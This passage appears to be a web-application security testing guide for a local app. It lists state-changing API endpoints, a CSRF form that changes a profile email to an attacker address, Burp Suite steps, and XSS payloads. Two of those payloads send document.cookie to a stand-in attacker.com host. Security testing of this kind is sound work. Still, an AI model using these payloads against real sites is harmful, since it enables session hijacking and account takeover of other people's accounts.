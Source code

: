 ### **1. CSRF (Cross-Site Request Forgery) Testing**

#### **A. Identify State-Changing Endpoints**
```http
POST /api/auth/register
POST /api/auth/login
POST /api/users/profile
PUT /api/users/profile
POST /api/bookings
POST /api/contact
POST /api/auth/forgot-password
POST /api/auth/reset-password
```

#### **B. CSRF Attack Methodology**
1. **Intercept Request**: Capture state-changing requests
2. **Remove CSRF Tokens**: Check if endpoints accept requests without CSRF tokens
3. **Create Malicious HTML**: 
```html
<form action="http://localhost:5000/api/users/profile" method="POST">
  <input type="hidden" name="name" value="Hacked">
  <input type="hidden" name="email" value="hacker@evil.com">
  <input type="submit" value="Click to win!">
</form>
```

#### **C. Burp Suite Steps**
```
1. Proxy → Intercept → ON
2. Send request to Repeater
3. Remove Authorization header
4. Send request without authentication
5. Check if 401 response (expected) or 200 (vulnerable)
```

### **2. XSS (Cross-Site Scripting) Testing**

#### **A. Reflected XSS Payloads**
```javascript
// Basic XSS
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>

// Advanced XSS
<script>fetch('http://attacker.com?cookie='+document.cookie)</script>
<script>new Image().src="http://attacker.com?cookie="+document.cookie;</script>
```

#### **B. Stored XSS Testing**
```
Target: /api/contact
Payload: {
  "name": "<script>alert('XSS')</script>",
  "email": "xss@test.com",
  "message": "<img src=x onerror=alert('XSS')>"
}
```
